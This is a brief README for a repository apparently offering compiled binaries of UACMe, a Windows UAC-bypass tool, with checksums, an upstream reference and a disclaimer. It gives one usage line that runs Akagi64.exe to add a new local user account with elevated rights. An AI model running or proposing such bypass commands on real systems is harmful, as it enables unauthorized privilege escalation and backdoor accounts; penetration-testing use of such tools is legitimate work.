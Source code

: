 # UACME-bin
Compiled UACMe, a tool for bypassing Windows UAC.

## MD5 Checksum
- Akagi32.exe : 74307f0e6341301175ab255b8863bcde
- Akagi64.exe : 3b13294d193f7d9c784f891da771afd0

Command example:
```powershell
Akagi64.exe 61 "net user asuka asuk@1337 /add"
```

![Akagi Add User](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhw_-d4vLRrPx3Xj4loU240qW6gvsxJV8L808DiN6bA3qdYR3VcYCjgsAZeapMRoEOjBO8XnbTJb_ZvuUhacESa9uGTzMuDMknMTGHrCEciomluD-eBAjVaPwmd-AwSeFLfRRCey4Uqjyni5KBarmLR1BWxBrXGPq1z0ws3cwLocv16W2BwVv02lILedGnh/s820/uac-bypass.png)

Reference:
- https://github.com/hfiref0x/UACME

## Disclaimer

Any actions and or activities related to the material contained within this tool is solely your responsibility.The misuse of the information in this tool can result in criminal charges brought against the persons in question.
